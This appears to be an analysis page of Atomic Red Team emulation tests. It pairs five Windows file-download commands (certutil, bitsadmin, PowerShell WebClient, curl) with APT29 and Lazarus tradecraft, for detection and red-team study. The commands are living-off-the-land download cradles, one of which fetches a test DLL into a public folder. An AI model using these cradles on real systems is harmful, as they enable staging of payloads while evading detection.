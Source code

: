 
## Detailed Test Analysis

### Atomic Test #7 - certutil download (urlcache)
**Technique:** Living-off-the-Land Binary (LOLBin) Abuse  
**Adversary Usage:** APT29  
**Command:**
```cmd
certutil -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt Atomic-license.txt
```
**Explanation:** APT29 has extensively used certutil for downloading additional tools and payloads during operations. This technique allows them to use a legitimate Windows component for malicious purposes, often evading detection.

### Atomic Test #9 - Windows - BITSAdmin BITS Download
**Technique:** Background Intelligent Transfer Service Abuse  
**Adversary Usage:** APT29 & Lazarus  
**Command:**
```cmd
bitsadmin /transfer qcxjb7 /Priority HIGH https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt %temp%\Atomic-license.txt
```
**Explanation:** Both groups use BITSAdmin for stealthy file transfers. BITS allows background downloads with resume capability and is often trusted by security tools, making it ideal for persistent operations.

### Atomic Test #10 - Windows - PowerShell Download
**Technique:** PowerShell Download Cradle  
**Adversary Usage:** APT29 & Lazarus  
**Command:**
```powershell
(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt", "$env:TEMP\Atomic-license.txt")
```
**Explanation:** This is a common technique used by both groups for downloading payloads. APT29 used similar methods during the SolarWinds campaign to download additional tools like TEARDROP and Cobalt Strike.

### Atomic Test #15 - File Download via PowerShell
**Technique:** PowerShell Download String  
**Adversary Usage:** APT29 & Lazarus  
**Command:**
```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt
```
**Explanation:** Both groups use this method for downloading and writing files. Lazarus has used similar techniques in Operation Dream Job to download multistage malware components.

### Atomic Test #18 - Curl Download File
**Technique:** curl Utility Abuse  
**Adversary Usage:** Lazarus  
**Command:**
```cmd
curl -k https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll -o c:\users\public\music\allthethingsx64.dll
```
**Explanation:** Lazarus Group frequently uses curl for downloading tools on Windows systems, often targeting multiple directories to avoid detection.
